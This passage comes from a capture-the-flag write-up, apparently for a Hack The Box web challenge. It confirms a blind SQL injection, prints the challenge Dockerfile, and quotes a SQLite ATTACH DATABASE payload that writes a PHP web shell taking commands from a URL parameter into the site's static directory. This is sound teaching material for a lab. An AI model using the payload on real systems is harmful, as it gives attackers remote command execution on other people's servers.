 As a result, we do not see the error anymore. The error above is the result of the previous request.

So the blind SQL injection is confirmed here.

Now, if we look at the docker file, we can see that the flag is in a text file. Moreover, the name of the flag file has some random characters at the end.

```docker
FROM alpine:edge

# Setup usr
RUN adduser -D -u 1000 -g 1000 -s /bin/sh www

# Install system packages
RUN apk add --no-cache --update supervisor nginx php7-fpm php7-sqlite3 php7-json

# Configure php-fpm and nginx
COPY config/fpm.conf /etc/php7/php-fpm.d/www.conf
COPY config/supervisord.conf /etc/supervisord.conf
COPY config/nginx.conf /etc/nginx/nginx.conf

# Copy challenge files
COPY challenge /www

# Copy flag
RUN RND=$(echo $RANDOM | md5sum | head -c 15) && \
	echo "HTB{f4k3_fl4g_f0r_t3st1ng}" > /flag_${RND}.txt

# Setup permissions
RUN chown -R www:www /var/lib/nginx /www

# Expose the port nginx is listening on
EXPOSE 80

CMD /usr/bin/supervisord -c /etc/supervisord.conf
```

This would mean that we are supposed to achieve RCE out of the SQL injection. 

The database being used here is SQLite. [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) shows us a way to do this.

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

We first create a database in a file that has `.php` extension. Then we create a table. Finally we insert the PHP code that we want to run, into the table. 

If we are able to put the PHP file into the website static directory, we will be able to run the PHP code.  

The static directory happen to be at `/www/static/images`. We can figure this out from the docker image.
